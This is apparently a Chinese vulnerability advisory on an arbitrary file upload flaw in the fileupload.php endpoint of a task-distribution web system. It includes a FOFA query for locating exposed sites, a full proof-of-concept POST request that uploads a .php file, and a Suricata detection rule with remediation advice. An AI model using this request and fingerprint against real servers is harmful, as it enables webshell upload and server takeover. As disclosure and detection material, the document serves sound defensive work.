


# 拇指达人科技自适应任务拉新分销系统 fileupload.php 存在文件上传漏洞

拇指达人科技自适应任务拉新分销系统 fileupload.php 存在文件上传漏洞，攻击者可执行任意命令导致服务器被控。

# 影响版本

拇指达人科技自适应任务拉新分销系统

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA："/static/home/login/reset.css"

POC/EXP：

```
POST /static/lib/webuploader/0.1.5/server/fileupload.php?name=audit36dspfiew.php&chunk=0&chunks=1 HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Cache-Control: max-age=0
Connection: keep-alive
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarytWIvtdAsZeAHIKQN
Host: 127.0.0.1
Origin: http://127.0.0.1:8088
Referer: http://127.0.0.1:8088/static/lib/webuploader/0.1.5/server/fileupload.php?name=audit36dspfiew.php&chunk=0&chunks=1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/148.0.0.0 Safari/537.36

------WebKitFormBoundarytWIvtdAsZeAHIKQN
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: image/jpeg

Test1234
------WebKitFormBoundarytWIvtdAsZeAHIKQN--
```





sonrt规则：

```
alert http any any -> $HOME_NET any (
    msg:"拇指达人科技自适应任务拉新分销系统 - /static/lib/webuploader/0.1.5/server/fileupload.php name参数任意文件上传 (php)";
    flow:to_server,established;
    http.method; content:"POST";
    http.uri;
        content:"/static/lib/webuploader/0.1.5/server/fileupload.php";
        fast_pattern;
    http.uri;
        content:"name=";
    http.uri;
        content:".php"; distance:0; nocase;
    http.uri;
        content:"chunk=";
    http.uri;
        content:"chunks=";
    http.content_type; content:"multipart/form-data";
    http.request_body;
        content:"Content-Disposition: form-data; name=\"file\"";
        content:"filename=\""; distance:0; nocase;
        content:".php"; distance:0; nocase;
    metadata:
        service http,
        affected_product "拇指达人科技 自适应任务拉新分销系统",
        vulnerability_type "Unrestricted File Upload / Webshell Upload",
        severity "critical";
    classtype:web-application-attack;
    sid:1000784;
    rev:1;
    priority:1;
)
```

# 漏洞修复

关闭互联网暴露面或接口设置访问权限，升级至安全版本。
